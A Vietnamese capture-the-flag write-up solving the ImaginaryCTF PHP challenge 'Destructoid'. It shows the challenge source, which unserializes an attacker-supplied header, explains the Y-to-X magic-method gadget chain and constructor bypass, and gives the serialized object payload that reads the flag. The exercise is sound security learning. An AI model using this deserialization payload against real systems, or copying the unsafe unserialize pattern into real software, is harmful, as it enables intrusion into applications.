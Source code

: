 # Destructoid
`Road to php god`
+ Infomation: 
  - Link: https://destructoid.chal.imaginaryctf.org/

[image]
Mặc dù không phải là người chơi hệ tâm linh tuy nhiên nhìn vào đây mình cũng đoán ra luôn cái param `?source`.

```php
1 	<?php
2 	$printflag = false;
3	
4 	class X {
5 	   function __construct($cleanup) {
6 	       if ($cleanup === "flag") {
7 	           die("NO!\n");
8 	       }
9 	       $this->cleanup = $cleanup;
10	    }
11	
12	    function __toString() {
13	        return $this->cleanup;
14	    }
15	
16	    function __destruct() {
17	        global $printflag;
18	        if ($this->cleanup !== "flag" && $this->cleanup !== "noflag") {
19	            die("No!\n");
20	        }
21	        include $this->cleanup . ".php";
22	        if ($printflag) {
23	            echo $FLAG . "\n";
24	        }
25	    }
26	 }
27	
28	 class Y {
29	    function __wakeup() {
30	        echo $this->secret . "\n";
31	    }
32	
33	    function __toString() {
34	        global $printflag;
35	        $printflag = true;
36	        return (new X($this->secret))->cleanup;
37	    }
38	 }
39	
40	 if (isset($_GET['source'])) {
41	    highlight_file(__FILE__);
42	    die();
43	 }
44	 echo "ecruos? ym dnif uoy naC\n";
45	 if (isset($_SERVER['HTTP_X_PAYLOAD'])) {
46	    unserialize(base64_decode($_SERVER['HTTP_X_PAYLOAD']));
47	 }	
```
Đề bài cho 2 class X, Y và thêm hàm `unserialize` đứng một mình tại `dòng 46` nghĩa là đây là một bài về lỗi `unserialize`. 
Sau một hồi đọc hiểu code thì mình ra được hướng khai thác như sau `class Y` trigger `__toString` -> `class X` trigger `__destruct`. Đầu tiên là phải trigger cái `__toString` trong class Y để biến `$printflag` được set giá trị `true`. `__toString` là một `magic function` mà mỗi khi object được đối xử như một `string` thì hàm này sẽ được gọi ra ví dự như này:
```php
  $a = new A();
  echo $a;
 ```
 Vì vậy để trigger được cái magic function kia mình sẽ lợi dụng echo ở `dòng 30`. Nghĩa là lúc này `$this->secret = new Y()` hay 
 ```php
 $payload = new Y();
 $a->secret = new Y();
 ```
 
 Tiếp theo để đọc được flag thì tham số truyền vào khi gọi `class X` phải là `flag` tuy nhiên ở hàm `__contructor` của `class X` (lại một magic function nữa) nếu tham số có giá trị là `flag` sẽ lập tức `die()`. Đến lúc này mình bắt đầu nghĩ làm thế nào để 1 giá trị vừa bằng lại vừa khác để thỏa mãn được cả 2 điều kiện ở `dòng 6` và `dòng 18`? Câu trả lời là `KHÔNG CÓ CÁCH NÀO` và phương án mình đưa ra lúc này là làm các nào để không cần gọi đến `__contructor`  mà chỉ gọi đến `__destruct` thôi? Câu trả lời nằm ở đây https://www.programmersought.com/article/43351307730/.

Vậy là chỉ cần sinh ra chuỗi json rồi sửa lại thông số về param để trigger thẳng `__destruct` thôi : 
```php
 $payload = new Y();
 $a->secret = new Y();
 $a->secret->secret = new X('flag');
 // O:1:"Y":1:{s:6:"secret";O:1:"Y":1:{s:6:"secret";O:1:"X":2:{s:7:"cleanup";s:4:"flag";}}}
 ```
 Tuy nhiên chỉ thế này thôi là chưa đủ khi dựng lại môi trường test trên máy local mình nhận ra là biến `$printflag` không hề được set giá trị `true` nên mình đã thử gọi thêm class Y một lần nữa và wala 
 ![image](https://user-images.githubusercontent.com/36907708/127254550-7923b05a-e292-4d47-a5fb-7ace757a31f4.png)
 
 
 gadget : 
 ![image](https://user-images.githubusercontent.com/36907708/127255649-c1539203-c386-40f6-a2f7-f65c3e76f8b9.png)

